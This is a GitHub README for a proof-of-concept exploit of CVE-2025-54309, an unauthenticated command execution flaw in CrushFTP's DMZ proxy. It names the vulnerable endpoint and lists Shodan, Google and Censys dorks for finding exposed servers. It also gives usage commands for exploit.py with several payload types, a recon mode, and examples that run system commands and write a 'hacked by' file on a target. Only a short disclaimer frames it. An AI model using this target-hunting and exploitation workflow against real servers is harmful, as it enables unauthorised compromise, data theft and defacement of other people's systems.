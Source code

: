 # 💥 CVE-2025-54309 - CrushFTP Unauthenticated Remote Command Execution Exploit

> **PoC by Issam Junior**  
> [![GitHub](https://img.shields.io/badge/GitHub-issamjr-181717?logo=github&logoColor=white)](https://github.com/issamjr)
> [![Twitter](https://img.shields.io/badge/Twitter-@issam_juniorx-1DA1F2?logo=twitter&logoColor=white)](https://x.com/issam_juniorx)
> [![Telegram](https://img.shields.io/badge/Telegram-issamiso-26A5E4?logo=telegram&logoColor=white)](https://t.me/issamiso)

---

## 🚨 Vulnerability Overview

- **CVE:** CVE-2025-54309
- **CVSS:** 9.8 (Critical)
- **Product:** CrushFTP
- **Impact:** Unauthenticated Remote Command Execution (RCE) over HTTPS

CrushFTP, a popular enterprise file transfer solution, suffers from a critical vulnerability in its DMZ proxy implementation. Missing checks allow external attackers to reach the admin interface via HTTPS POST requests, bypassing authentication and directly invoking system commands.

### Technical Breakdown

The vulnerability exists due to an incomplete validation in the DMZ proxy's handling of HTTPS requests. By crafting a malicious XML-RPC request to the `/WebInterface/function/` endpoint, attackers can trigger system commands on the server **without authentication**. This flaw allows full server compromise, data theft, and lateral movement.

**Affected Versions:**  
> All CrushFTP versions prior to 10.7.0 (verify with vendor advisories for specifics).

---

## 🕵️‍♂️ Dorks for Hunting CrushFTP Servers

### 🔎 Shodan Dorks
```
http.favicon.hash:427298725 "CrushFTP"
http.html:"CrushFTP"
product:"CrushFTP"
ssl:"CrushFTP"
port:443 "CrushFTP"
```

### 🦊 Ffuf/Faff Dorks (URL Discovery)
```
/WebInterface/function/
/WebInterface/login/
/WebInterface/json/
/WebInterface/info/
/favicon.ico
```

### 🕷️ Hunter Dorks (Google, Censys, etc.)
```
title:"CrushFTP WebInterface"
"Powered by CrushFTP"
inurl:/WebInterface/function/
inurl:/WebInterface/login/
```

---

## ⚡ Exploit Features

- **Multiple Payloads:**
  - **xml**: XML-RPC command injection (default, most reliable).
  - **cmd_inject**: Classic command injection via POST parameters.
  - **json**: JSON-based RCE simulation (if endpoint supports).
  - **file_upload**: Simulated arbitrary file write (upload).
- **Recon Mode:**
  - Fingerprints CrushFTP version.
  - Scans for interesting endpoints and methods.
- **Output Parsing:**
  - Extracts and highlights command output from responses.

---

## ⚡ Exploit Usage

### 1. Install Dependencies

```bash
pip install -r requirements.txt
```

### 2. Run the Exploit

```bash
python3 exploit.py <target> [-c <cmd>] [-p <payload>] [--recon]
```

- `<target>`: IP or domain of the vulnerable CrushFTP server.
- `-c <cmd>`: (Optional) Command to execute. Defaults to `id`.
- `-p <payload>`: (Optional) Payload type. Options: `xml`, `cmd_inject`, `json`, `file_upload` (default: `xml`).
- `--upload-file <filename>` and `--upload-data <data>`: Used with `file_upload` payload type.
- `--recon`: Run endpoint scan & version fingerprint.

**Examples:**

- XML-RPC RCE (default):
  ```bash
  python3 exploit.py 192.168.1.100 -c "uname -a"
  ```

- Command Injection via login:
  ```bash
  python3 exploit.py 192.168.1.100 -c "whoami" -p cmd_inject
  ```

- File Upload (simulated):
  ```bash
  python3 exploit.py 192.168.1.100 -p file_upload --upload-file "/tmp/pwned.txt" --upload-data "CrushFTP hacked by Issam Junior"
  ```

- Reconnaissance:
  ```bash
  python3 exploit.py 192.168.1.100 --recon
  ```

---

### 3. Output

- **Green**: Successful exploitation and command output.
- **Red**: Errors (network issues, non-vulnerable target).
- **Yellow**: Warnings (unexpected response).

---

## ⚠️ Disclaimer

> **This PoC is for educational purposes only.  
> Do not use on systems without authorization.  
> You are solely responsible for your actions.**

---

## 👤 Author & Socials

- **Name:** Issam Junior

[![GitHub](https://img.shields.io/badge/GitHub-issamjr-181717?logo=github&logoColor=white)](https://github.com/issamjr)
[![Twitter](https://img.shields.io/badge/Twitter-@issam_juniorx-1DA1F2?logo=twitter&logoColor=white)](https://x.com/issam_juniorx)
[![Telegram](https://img.shields.io/badge/Telegram-issamiso-26A5E4?logo=telegram&logoColor=white)](https://t.me/issamiso)

